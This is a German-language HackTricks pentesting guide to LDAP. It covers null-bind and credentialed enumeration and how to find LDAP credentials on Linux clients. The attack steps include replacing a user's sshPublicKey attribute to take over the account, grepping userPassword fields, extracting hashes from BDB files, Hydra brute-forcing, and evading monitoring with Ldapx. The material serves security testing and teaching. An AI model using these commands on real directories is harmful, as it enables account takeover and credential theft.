


# 389, 636, 3268, 3269 - Pentesting LDAP

{{#include ../banners/hacktricks-training.md}}

**LDAP** (Lightweight Directory Access Protocol) ermöglicht den Zugriff auf Verzeichnisdienste: Clients können Verzeichniseinträge suchen, lesen, hinzufügen, ändern und löschen, sofern die Zugriffskontrollen dies erlauben. Häufig speichern solche Installationen Identitäten, Gruppen, Geräte und Dienstkonfigurationen. LDAP wurde als leichtgewichtigere Möglichkeit für den Zugriff auf Verzeichnismodelle entwickelt, die von X.500 abgeleitet sind.<sup>[[6]](#references)[[7]](#references)</sup>

Ein LDAP-Server wird auch als Directory System Agent (DSA) bezeichnet. Ein Verzeichnis kann in Namenskontexte partitioniert und über mehrere DSAs verteilt oder repliziert werden. Allerdings enthält nicht jeder Server zwangsläufig eine synchronisierte Kopie des gesamten Baums. Ein DSA kann Verweise zurückgeben, wenn ein anderer Server die angeforderten Daten enthält.<sup>[[6]](#references)[[7]](#references)</sup>

Einträge bilden einen **Directory Information Tree (DIT)** und werden durch Distinguished Names (DNs) identifiziert. Eine Installation kann DNS-ähnliche Domänenkomponenten (`dc=example,dc=com`), Länder-/Organisationskomponenten, Organisationseinheiten oder eine andere schema-gerechte Hierarchie verwenden. Es besteht keine Vorgabe, dass jeder Baum dem Muster Land → Organisation folgen muss.<sup>[[6]](#references)</sup>

**Übliche Ports:** TCP 389 für LDAP (optional mit StartTLS hochstufbar) und TCP 636 für LDAP über TLS (`ldaps`). Auf einem Active-Directory-Domänencontroller, der zugleich Global-Catalog-Server ist, bietet TCP 3268 LDAP für den Global Catalog und TCP 3269 LDAP für den Global Catalog über TLS.<sup>[[8]](#references)</sup>

Informationen zur Manipulation von Filtern auf der Anwendungsseite statt zum direkten Verzeichniszugriff findest du unter [LDAP injection](../pentesting-web/ldap-injection.md).

```
PORT    STATE SERVICE REASON
389/tcp open  ldap    syn-ack
636/tcp open  tcpwrapped
```

### LDAP Data Interchange Format

LDIF (LDAP Data Interchange Format) definiert den Verzeichnisinhalt als eine Menge von Datensätzen. Es kann auch Aktualisierungsanfragen (Add, Modify, Delete, Rename) darstellen.

```bash
dn: dc=local
dc: local
objectClass: dcObject

dn: dc=moneycorp,dc=local
dc: moneycorp
objectClass: dcObject
objectClass: organization

dn: ou=it,dc=moneycorp,dc=local
objectClass: organizationalUnit
ou: it

dn: ou=marketing,dc=moneycorp,dc=local
objectClass: organizationalUnit
ou: marketing

dn: uid=pepe,ou=it,dc=moneycorp,dc=local
objectClass: inetOrgPerson
cn: Pepe Example
sn: Example
givenName: Pepe
uid: pepe
mail: pepe@hacktricks.xyz
telephoneNumber: 23627387495
```

- Zeilen 1–3 definieren die Top-Level-Domain local
- Zeilen 5–8 definieren die First-Level-Domain moneycorp (moneycorp.local)
- Zeilen 10–16 definieren zwei Organisationseinheiten: `it` und `marketing`.
- Der letzte Eintrag erstellt einen Personeneintrag und weist ihm schema-konforme Attribute zu.

## Daten schreiben

Schreibbare Attribute können sich auch außerhalb des Verzeichnisses auf die Sicherheit auswirken. Wenn beispielsweise ein Host explizit so konfiguriert ist, dass er SSH authorized keys aus LDAP abruft, und du das Attribut `sshPublicKey` eines Ziels ersetzen kannst, kannst du dich möglicherweise ohne dessen Passwort als dieser Benutzer authentifizieren. Überprüfe die SSH-Integration und die Attributzuordnung. Das bloße Vorhandensein des Attributs beweist nicht, dass ein Host es verwendet.<sup>[[1]](#references)</sup>

Schreibzugriff auf das Verzeichnis kann auch das `gidNumber`- oder `userPassword`-Attribut eines Linux-Kontos betreffen, jedoch nur, wenn NSS/SSSD und der Authentifizierungsstack des Zielhosts diese Attribute verwenden. Für einen Weg über SSH und sudo solltest du den effektiven Wert von `AuthorizedKeysCommand` oder eine andere Schlüsselquelle, die zugeordnete lokale Gruppe, eine sudoers-Regel für diese Gruppe und die Passwortanforderung der Richtlinie überprüfen. Ein schreibbarer Verzeichniseintrag allein gewährt keinen Root-Zugriff; zwischengespeicherte Identitäten können eine Änderung der Zuordnung verzögern.

```bash
# Example from https://www.n00py.io/2020/02/exploiting-ldap-server-null-bind/
>>> import ldap3
>>> server = ldap3.Server('x.x.x.x', port =636, use_ssl = True)
>>> connection = ldap3.Connection(server, 'uid=USER,ou=USERS,dc=DOMAIN,dc=DOMAIN', 'PASSWORD', auto_bind=True)
>>> connection.bind()
True
>>> connection.extend.standard.who_am_i()
u'dn:uid=USER,ou=USERS,dc=DOMAIN,dc=DOMAIN'
>>> connection.modify('uid=USER,ou=USERS,dc=DOMAIN,dc=TLD', {'sshPublicKey': [(ldap3.MODIFY_REPLACE, ['ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDHRMu2et/B5bUyHkSANn2um9/qtmgUTEYmV9cyK1buvrS+K2gEKiZF5pQGjXrT71aNi5VxQS7f+s3uCPzwUzlI2rJWFncueM1AJYaC00senG61PoOjpqlz/EUYUfj6EUVkkfGB3AUL8z9zd2Nnv1kKDBsVz91o/P2GQGaBX9PwlSTiR8OGLHkp2Gqq468QiYZ5txrHf/l356r3dy/oNgZs7OWMTx2Rr5ARoeW5fwgleGPy6CqDN8qxIWntqiL1Oo4ulbts8OxIU9cVsqDsJzPMVPlRgDQesnpdt4cErnZ+Ut5ArMjYXR2igRHLK7atZH/qE717oXoiII3UIvFln2Ivvd8BRCvgpo+98PwN8wwxqV7AWo0hrE6dqRI7NC4yYRMvf7H8MuZQD5yPh2cZIEwhpk7NaHW0YAmR/WpRl4LbT+o884MpvFxIdkN1y1z+35haavzF/TnQ5N898RcKwll7mrvkbnGrknn+IT/v3US19fPJWzl1/pTqmAnkPThJW/k= badguy@evil'])]})
```

## LDAP-Artefakte auf Linux-Clients

Auf Linux-Hosts, die in LDAP/AD integriert sind, finden sich wertvolle Geheimnisse oft in der **Client-Konfiguration** und nicht nur auf dem LDAP-Server selbst.

Häufige Dateien:

```bash
ls -l /etc/sssd/sssd.conf /etc/nslcd.conf /etc/ldap/ldap.conf /etc/krb5.conf 2>/dev/null
sed -n '1,120p' /etc/sssd/sssd.conf 2>/dev/null
sed -n '1,120p' /etc/nslcd.conf 2>/dev/null
```

Wichtige Schlüssel:

- **`ldap_uri`** und **`ldap_search_base`**: wo und wonach gesucht werden soll
- **`ldap_default_bind_dn`** und **`ldap_default_authtok`**: wiederverwendbare Bind-Zugangsdaten
- **`id_provider`** / **`auth_provider`**: zeigt, ob SSSD LDAP, Kerberos oder beides verwendet

Nützliche nächste Schritte:

```bash
grep -nE '^(ldap_uri|ldap_search_base|ldap_default_bind_dn|ldap_default_authtok|id_provider|auth_provider)\\s*=' \
  /etc/sssd/sssd.conf /etc/nslcd.conf 2>/dev/null

ldapsearch -x -H ldap://<target> -D "<bind-dn>" -w '<password>' -b "<base-dn>"
```

Was zu beachten ist:

- **für alle lesbare `sssd.conf` / `nslcd.conf`**
- Bind-Zugangsdaten im Klartext
- Verzeichnisgestützte SSH- oder sudo-Integrationen, bei denen eine lesbare Konfiguration Auswirkungen auf die tatsächliche Autorisierung hat

## Zugangsdaten im Klartext und Risiken durch TLS-Downgrade

Informationen zum geräteseitigen Risiko, dass gespeicherte LDAP-Zugangsdaten an einen geänderten Server gesendet werden, finden Sie unter [Informationen zu Druckern](../windows-hardening/active-directory-methodology/ad-information-in-printers.md#capturing-credentials).

Ein LDAP-**Simple Bind** über eine ungeschützte Verbindung legt den Bind-DN und das Passwort für einen Angreifer auf dem Übertragungsweg offen. Nicht jeder Authentifizierungsmechanismus überträgt Daten im Klartext: SASL-Mechanismen können eigene Integritäts- und Vertraulichkeitsschutzmechanismen bieten, und StartTLS oder `ldaps://` können die Sitzung schützen.<sup>[[9]](#references)</sup>

Ein Angreifer auf dem Übertragungsweg kann möglicherweise StartTLS unterdrücken oder stören, wenn ein Client TLS als optional behandelt und auf einen ungeschützten Simple Bind zurückfällt. Ein korrekt konfigurierter Client muss TLS verlangen, bevor er Zugangsdaten sendet, und die Verbindung abbrechen, wenn die Aushandlung fehlschlägt.

Bei `ldaps://` oder erfolgreich ausgehandeltem StartTLS setzt ein Abfangen außerdem voraus, dass der Client ein nicht vertrauenswürdiges Zertifikat oder ein Zertifikat mit abweichendem Namen akzeptiert oder eine vertrauenswürdige CA bzw. deren Schlüssel kompromittiert wurde. LDAP-Clients sind häufig unbeaufsichtigte Dienste. Daher ist die Zertifikatsprüfrichtlinie maßgeblich, nicht die Aufforderung an einen interaktiven Benutzer.<sup>[[10]](#references)</sup>

## Anonymer Zugriff

### TLS-SNI-Prüfung umgehen

In der zitierten Umgebung änderte die Auflösung eines vom Angreifer gewählten Hostnamens zur LDAP-Dienstadresse, wie die TLS-Verbindung akzeptiert wurde, und machte ein anonym lesbares Verzeichnis erreichbar. Betrachten Sie dies als eine deploymentspezifische Prüfung von Hostname/SNI und Zertifikatsrouting, nicht als generische Umgehung der LDAP-Authentifizierung:<sup>[[2]](#references)</sup>

```bash
ldapsearch -H ldaps://company.com:636/ -x -s base -b '' "(objectClass=*)" "*" +
```

### Anonyme LDAP-Binds

Ein anonymer LDAP-Bind stellt einen nicht authentifizierten Autorisierungsstatus her. Active Directory erlaubt anonym eine eingeschränkte RootDSE-Erkundung, erfordert jedoch seit den Standardeinstellungen von Windows Server 2003 im Allgemeinen eine Authentifizierung, um Verzeichnisdaten zu durchsuchen. Administratoren können für Legacy-Anwendungen absichtlich umfassenderen anonymen Zugriff gewähren; eine fehlerhafte ACL kann dann Benutzer, Gruppen, Computer, Attribute oder Richtliniendaten offenlegen.<sup>[[3]](#references)</sup>

### Anonyme LDAP-Aufzählung mit NetExec (Null-Bind)

Wenn ein Null-/anonymer Bind erlaubt ist, kannst du Benutzer, Gruppen und Attribute direkt über das LDAP-Modul von NetExec ohne Zugangsdaten abrufen.<sup>[[4]](#references)[[5]](#references)</sup> Nützliche Filter:
- (objectClass=*) zum Erfassen von Objekten unter einer Base DN
- (sAMAccountName=*) zum Sammeln von Benutzerprinzipalen

Beispiele:

```bash
# Enumerate objects from the root DSE (base DN autodetected)
netexec ldap <DC_FQDN> -u '' -p '' --query "(objectClass=*)" ""

# Dump users with key attributes for spraying and targeting
netexec ldap <DC_FQDN> -u '' -p '' --query "(sAMAccountName=*)" ""

# Extract just the sAMAccountName field into a list
netexec ldap <DC_FQDN> -u '' -p '' --query "(sAMAccountName=*)" "" \
  | awk -F': ' '/sAMAccountName:/ {print $2}' | sort -u > users.txt
```

Worauf zu achten ist:
- sAMAccountName, userPrincipalName
- memberOf und OU-Platzierung, um gezielte Sprays einzugrenzen
- pwdLastSet (zeitliche Muster), userAccountControl-Flags (deaktiviert, Smartcard erforderlich usw.)

Hinweis: Wenn die angeforderte anonyme Suche nicht zulässig ist, tritt häufig ein Operationsfehler auf, der angibt, dass ein Bind erforderlich ist. Andere Fehler können auf die Base DN, den Filter, die Signing-/Channel-Binding-Richtlinie oder serverspezifische Zugriffskontrollen zurückzuführen sein.

## Gültige Zugangsdaten

Wenn du über gültige Zugangsdaten verfügst, um dich am LDAP-Server anzumelden, kannst du mit folgendem Tool alle Informationen über den Domain Admin dumpen:

[ldapdomaindump](https://github.com/dirkjanm/ldapdomaindump)

```bash
pip3 install ldapdomaindump
ldapdomaindump <IP> [-r <IP>] -u '<domain>\<username>' -p '<password>' [--authtype SIMPLE] --no-json --no-grep [-o /path/dir]
```

### [Brute Force](../generic-hacking/brute-force.md#ldap)

## Enumeration

### Automatisiert

Diese Skripte können anonym zugängliche Metadaten wie Namenskontexte und unterstützte Controls offenlegen:

```bash
nmap -n -sV --script "ldap* and not brute" <IP> #Using anonymous credentials
```

### Python

<details>

<summary>LDAP enumeration mit Python anzeigen</summary>

Mit Python kannst du ein LDAP-Verzeichnis mit oder ohne Zugangsdaten enumerieren: `pip3 install ldap3`.

Versuche zuerst, **ohne** Zugangsdaten eine Verbindung herzustellen:

```bash
>>> import ldap3
>>> server = ldap3.Server('x.X.x.X', get_info = ldap3.ALL, port =636, use_ssl = True)
>>> connection = ldap3.Connection(server)
>>> connection.bind()
True
>>> server.info
```

Wenn der Bind `True` zurückgibt, untersuche RootDSE-Metadaten wie Naming Contexts und unterstützte Features. Ein erfolgreicher anonymer Bind bedeutet nicht, dass Subtree-Suchen autorisiert sind.

```bash
>>> server.info
DSA info (from DSE):
Supported LDAP versions: 3
Naming contexts:
dc=DOMAIN,dc=DOMAIN
```

Sobald ein Naming Context vorliegt, fragt diese Subtree-Abfrage alle Objekte ab, für die die gebundene Identität Leserechte hat:

```bash
>>> connection.search(search_base='DC=DOMAIN,DC=DOMAIN', search_filter='(&(objectClass=*))', search_scope='SUBTREE', attributes='*')
True
>> connection.entries
```

Oder **dump** das gesamte LDAP:

```bash
>> connection.search(search_base='DC=DOMAIN,DC=DOMAIN', search_filter='(&(objectClass=person))', search_scope='SUBTREE', attributes='userPassword')
True
>>> connection.entries
```

</details>

### windapsearch

[**Windapsearch**](https://github.com/ropnop/windapsearch) ist ein Python-Skript, das sich mithilfe von LDAP-Abfragen dazu eignet, Benutzer, Gruppen und Computer aus einer Windows-Domäne zu enumerieren.

```bash
# Get computers
python3 windapsearch.py --dc-ip 10.10.10.10 -u john@domain.local -p password --computers
# Get groups
python3 windapsearch.py --dc-ip 10.10.10.10 -u john@domain.local -p password --groups
# Get users
python3 windapsearch.py --dc-ip 10.10.10.10 -u john@domain.local -p password --users
# Get Domain Admins
python3 windapsearch.py --dc-ip 10.10.10.10 -u john@domain.local -p password --da
# Get Privileged Users
python3 windapsearch.py --dc-ip 10.10.10.10 -u john@domain.local -p password --privileged-users
```

### ldapsearch

Prüfe, ob eine Anmeldung mit leeren Zugangsdaten möglich ist oder ob deine Zugangsdaten gültig sind:

```bash
ldapsearch -x -H ldap://<IP> -D '' -w '' -b "DC=<1_SUBDOMAIN>,DC=<TLD>"
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "DC=<1_SUBDOMAIN>,DC=<TLD>"
```

```bash
# CREDENTIALS NOT VALID RESPONSE
search: 2
result: 1 Operations error
text: 000004DC: LdapErr: DSID-0C090A4C, comment: In order to perform this opera
 tion a successful bind must be completed on the connection., data 0, v3839
```

Ein Fehler mit der Meldung, dass ein erfolgreicher Bind-Vorgang abgeschlossen sein muss, bedeutet, dass der angeforderte Vorgang im aktuellen Authentifizierungsstatus nicht zulässig ist. Mögliche Ursachen sind ungültige Anmeldedaten, ein anonymer/ausgelassener Bind-Vorgang oder eine Serverrichtlinie, die Signierung, Channel Binding oder einen anderen Authentifizierungsmechanismus erfordert.

Du kannst **alles aus einer Domäne** extrahieren mit:

```bash
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "DC=<1_SUBDOMAIN>,DC=<TLD>"
-x Simple Authentication
-H LDAP Server
-D My User
-w My password
-b Base site, all data from here will be given
```

Benutzer **extrahieren**:

```bash
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Users,DC=<1_SUBDOMAIN>,DC=<TLD>"
#Example: ldapsearch -x -H ldap://<IP> -D 'MYDOM\john' -w 'johnpassw' -b "CN=Users,DC=mydom,DC=local"
```

Computer extrahieren:

```bash
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Computers,DC=<1_SUBDOMAIN>,DC=<TLD>"
```

Extrahiere **meine Informationen**:

```bash
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=<MY NAME>,CN=Users,DC=<1_SUBDOMAIN>,DC=<TLD>"
```

Extrahiere **Domain Admins**:

```bash
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Domain Admins,CN=Users,DC=<1_SUBDOMAIN>,DC=<TLD>"
```

**Domain Users** extrahieren:

```bash
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Domain Users,CN=Users,DC=<1_SUBDOMAIN>,DC=<TLD>"
```

Extrahieren von **Enterprise Admins**:

```bash
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Enterprise Admins,CN=Users,DC=<1_SUBDOMAIN>,DC=<TLD>"
```

Extract **Administratoren**:

```bash
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Administrators,CN=Builtin,DC=<1_SUBDOMAIN>,DC=<TLD>"
```

**Remote-Desktop-Gruppe extrahieren**

```bash
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Remote Desktop Users,CN=Builtin,DC=<1_SUBDOMAIN>,DC=<TLD>"
```

Um zu prüfen, ob du Zugriff auf ein Passwort hast, kannst du nach Ausführen einer der Abfragen grep verwenden:

```bash
<ldapsearchcmd...> | grep -i -A2 -B2 "userpas"
```

Werte in passwortähnlichen Attributen können Hashes, anwendungsspezifische Geheimnisse, veraltete Daten oder Lockvögel statt aktueller Klartextpasswörter sein.

#### pbis

Du kannst **pbis** hier herunterladen: [https://github.com/BeyondTrust/pbis-open/](https://github.com/BeyondTrust/pbis-open/) und es ist normalerweise in `/opt/pbis` installiert.\
**PBIS Open** ist inzwischen ein archiviertes Projekt, könnte aber noch auf älteren LDAP-/AD-integrierten Hosts installiert sein. Seine Dienstprogramme können nützliche Informationen zur lokalen Integration offenlegen:

```bash
#Read keytab file
./klist -k /etc/krb5.keytab

#Get known domains info
./get-status
./lsa get-status

#Get basic metrics
./get-metrics
./lsa get-metrics

#Get users
./enum-users
./lsa enum-users

#Get groups
./enum-groups
./lsa enum-groups

#Get all kind of objects
./enum-objects
./lsa enum-objects

#Get groups of a user
./list-groups-for-user <username>
./lsa list-groups-for-user <username>
#Get groups of each user
./enum-users | grep "Name:" | sed -e "s,\\,\\\\\\,g" | awk '{print $2}' | while read name; do ./list-groups-for-user "$name"; echo -e "========================\n"; done

#Get users of a group
./enum-members --by-name "domain admins"
./lsa enum-members --by-name "domain admins"
#Get users of each group
./enum-groups | grep "Name:" | sed -e "s,\\,\\\\\\,g" | awk '{print $2}' | while read name; do echo "$name"; ./enum-members --by-name "$name"; echo -e "========================\n"; done

#Get description of each user
./adtool -a search-user --name CN="*" --keytab=/etc/krb5.keytab -n <Username> | grep "CN" | while read line; do
    echo "$line";
    ./adtool --keytab=/etc/krb5.keytab -n <username> -a lookup-object --dn="$line" --attr "description";
    echo "======================"
done
```

## Grafische Oberfläche

### Apache Directory

[**Apache Directory hier herunterladen**](https://directory.apache.org/studio/download/download-linux.html). Ein [Beispiel zur Verwendung dieses Tools findest du hier](https://www.youtube.com/watch?v=VofMBg2VLnw&t=3840s).

### jxplorer

Hier kannst du eine grafische Oberfläche für LDAP-Server herunterladen: [http://www.jxplorer.org/downloads/users.html](http://www.jxplorer.org/downloads/users.html)

Standardmäßig wird es möglicherweise unter `/opt/jxplorer` installiert.

.png>)

### Godap

Godap ist eine interaktive Terminal-Benutzeroberfläche für LDAP, mit der sich Objekte und Attribute in AD und anderen LDAP-Servern bearbeiten lassen. Es ist für Windows, Linux und MacOS verfügbar und unterstützt einfache Bindungen, pass-the-hash, pass-the-ticket und pass-the-cert sowie mehrere weitere spezialisierte Funktionen, etwa das Suchen, Erstellen, Ändern und Löschen von Objekten, das Hinzufügen und Entfernen von Benutzern zu Gruppen, das Ändern von Passwörtern, das Bearbeiten von Objektberechtigungen (DACLs), das Ändern von Active-Directory Integrated DNS (ADIDNS), den Export in JSON-Dateien usw.



Du findest es unter [https://github.com/Macmod/godap](https://github.com/Macmod/godap). Nutzungsbeispiele und Anleitungen findest du im [Wiki](https://github.com/Macmod/godap/wiki).

### Ldapx

Ldapx ist ein flexibler LDAP-Proxy, mit dem sich LDAP-Datenverkehr anderer Tools untersuchen und umwandeln lässt. Er kann verwendet werden, um LDAP-Datenverkehr zu verschleiern und so zu versuchen, Identity-Protection- und LDAP-Monitoring-Tools zu umgehen. Außerdem implementiert er die meisten der im Vortrag [MaLDAPtive](https://www.youtube.com/watch?v=mKRS5Iyy7Qo) vorgestellten Methoden.



Du findest es unter [https://github.com/Macmod/ldapx](https://github.com/Macmod/ldapx).

## Authentifizierung über Kerberos

Mit einem gültigen Kerberos-Credential-Cache und einer korrekten Service-Principal-/DNS-Konfiguration verwendet `ldapsearch -Y GSSAPI` SASL GSSAPI statt eines einfachen Binds. Ob ein anderer Aufruf NTLM verwendet, hängt von der LDAP-Bibliothek und dem SASL-Mechanismus ab; `ldapsearch -x` fordert ausdrücklich eine einfache Authentifizierung an.

## Post-Exploitation

Ältere OpenLDAP-Deployments speichern möglicherweise Berkeley-DB-Dateien unter `/var/lib/ldap`. Wenn das konkrete Backend lesbare `.bdb`-Dateien verwendet, kann dieser historische Ansatz zur String-Extraktion Passwort-Hash-Datensätze wiederherstellen. Moderne `mdb`-Backends und binäre Datenbankformate erfordern jedoch backend-spezifische Offline-Tools oder ein konsistentes Backup:

```bash
cat /var/lib/ldap/*.bdb | grep -i -a -E -o "description.*" | sort | uniq -u
```

Extrahiere nur den Hashwert (zum Beispiel die Zeichenfolge, die mit `{SSHA}` beginnt) und wähle das passende Format für John the Ripper/Hashcat aus. Füge keine angrenzenden LDIF- oder Datenbankfelder wie `structuralObjectClass` hinzu.

### Konfigurationsdateien

- Allgemein
  - containers.ldif
  - ldap.cfg
  - ldap.conf
  - ldap.xml
  - ldap-config.xml
  - ldap-realm.xml
  - slapd.conf
- IBM SecureWay V3 Server
  - V3.sas.oc
- Microsoft Active Directory Server
  - msadClassesAttrs.ldif
- Netscape Directory Server 4
  - nsslapd.sas_at.conf
  - nsslapd.sas_oc.conf
- OpenLDAP directory server
  - slapd.sas_at.conf
  - slapd.sas_oc.conf
- Sun ONE Directory Server 5.1
  - 75sas.ldif

## Automatische HackTricks-Befehle

```
Protocol_Name: LDAP    #Protocol Abbreviation if there is one.
Port_Number:  389,636     #Comma separated if there is more than one.
Protocol_Description: Lightweight Directory Access Protocol         #Protocol Abbreviation Spelled out

Entry_1:
  Name: Notes
  Description: Notes for LDAP
  Note: |
    The use of LDAP (Lightweight Directory Access Protocol) is mainly for locating various entities such as organizations, individuals, and resources like files and devices within networks, both public and private. It offers a streamlined approach compared to its predecessor, DAP, by having a smaller code footprint.

    https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-ldap.html

Entry_2:
  Name: Banner Grab
  Description: Grab LDAP Banner
  Command: nmap -p 389 --script ldap-search -Pn {IP}

Entry_3:
  Name: LdapSearch
  Description: Base LdapSearch
  Command: ldapsearch -H ldap://{IP} -x

Entry_4:
  Name: LdapSearch Naming Context Dump
  Description: Attempt to get LDAP Naming Context
  Command: ldapsearch -H ldap://{IP} -x -s base namingcontexts

Entry_5:
  Name: LdapSearch Big Dump
  Description: Need Naming Context to do big dump
  Command: ldapsearch -H ldap://{IP} -x -b "{Naming_Context}"

Entry_6:
  Name: Hydra Brute Force
  Description: Need User
  Command: hydra -l {Username} -P {Big_Passwordlist} {IP} ldap2 -V -f

Entry_7:
    Name: Netexec LDAP BloodHound
    Command: nxc ldap <IP> -u <USERNAME> -p <PASSWORD> --bloodhound -c All -d <DOMAIN.LOCAL> --dns-server <IP> --dns-tcp
```


## References

- [1] [LDAP-Server-NULL-Bind ausnutzen](https://www.n00py.io/2020/02/exploiting-ldap-server-null-bind/)
- [2] [Beliebige Objektinstanziierungen in PHP ohne benutzerdefinierte Klassen ausnutzen](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)
- [3] [Microsoft: Anonyme LDAP-Operationen für Active Directory sind deaktiviert](https://docs.microsoft.com/en-us/troubleshoot/windows-server/identity/anonymous-ldap-operations-active-directory-disabled)
- [4] [HTB: Baby — Anonymes LDAP → Password Spray → SeBackupPrivilege → Domain Admin](https://0xdf.gitlab.io/2025/09/19/htb-baby.html)
- [5] [NetExec (Nachfolger von CME)](https://github.com/Pennyw0rth/NetExec)
- [6] [RFC 4512 – LDAP-Verzeichnisinformationsmodelle](https://www.rfc-editor.org/rfc/rfc4512)
- [7] [RFC 4511 – LDAP-Protokolloperationen](https://www.rfc-editor.org/rfc/rfc4511)
- [8] [Microsoft Active Directory LDAP- und Global-Catalog-Ports](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/1010e59a-cf64-410c-a05c-a3a6c715261a)
- [9] [RFC 4513 – LDAP-Authentifizierungsmethoden und Sicherheitsmechanismen](https://www.rfc-editor.org/rfc/rfc4513)
- [10] [OpenLDAP 2.6 Administratorhandbuch – TLS verwenden](https://openldap.org/doc/admin26/tls.html)
{{#include ../banners/hacktricks-training.md}}
